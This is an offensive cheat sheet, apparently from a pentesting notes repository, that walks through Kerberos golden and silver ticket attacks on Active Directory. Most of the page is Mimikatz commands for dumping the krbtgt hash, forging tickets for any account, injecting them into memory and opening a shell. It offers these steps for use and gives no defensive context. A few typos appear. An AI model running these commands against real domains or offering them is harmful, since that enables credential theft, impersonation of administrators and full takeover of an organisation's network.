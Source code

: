 A golden ticket is a TGT crafted with the KRBTGT AD serivce's password, using which you can imitate any account on the entire AD.

##### Requirements
Admin level access to any user on the AD

##### Dumping the krbtgt hash
Use Mimikatz to dump the hash:
```
./mimikatz.exe
privilege::debug  // If this returns anything but "Privilege '20' OK", Mimikatz has not been run as Admin.
lsadump::dcsync /user:krbtgt@DOMAIN  // If you do not have Domain Controller privelege, use this.
lsadump::lsa /inject /name:krbtgt  // If you have DC Privelege, use this. For silver ticket creation, change the name.
```

##### Forging a Golden ticket
```
Kerberos::golden /user:Administrator /domain:controller.local /sid:MIMIKATZ_OUTPUT_SID /krbtgt:KRBTGT_NTLM
```
Note: the Key Distribution Center (`KDC`) will only check if the  `/user` -specified value is correct if the ticket is less than 20 minutes old. So as long as the ticket is older than 20 minutes, the specified user does not even need to exist.
`/sid`: The domain's SID (obtain via mimikatz output, or by using `Get-LocalUser -name krbtgt | select sid` and removing the last identifier (RID))
`/krbtgt`: The KRBTGT service's NTLM hash.

The ticket will now be stored in the current directory as "ticker.kirbi".

##### Exploiting using the Golden ticket
Load the ticket into memory:
```
kerberos::ptt TICKET_FILE
```
On another command prompt, check using:
```
klist // If it has a TGT, it has succeeded.
```
If you have RDP, create a remote shell:
```
misc::cmd
```
Otherwise, you can access whatever machine you want to as the Administrator via normal CMD, as long as you have the TGT active.

#### Silver tickets
Silver tickets are generated the same way as golden tickets, but with a few extra parameters:
```
kerberos::golden /admin:nonSuspiciousAccount /domain:DOMAIN /id:500 /sid:DOMAIN_SID /target:TARGET_HOSTNAME /rc4:TARGET_ACCOUT_NTLM /service:cifs /ptt
```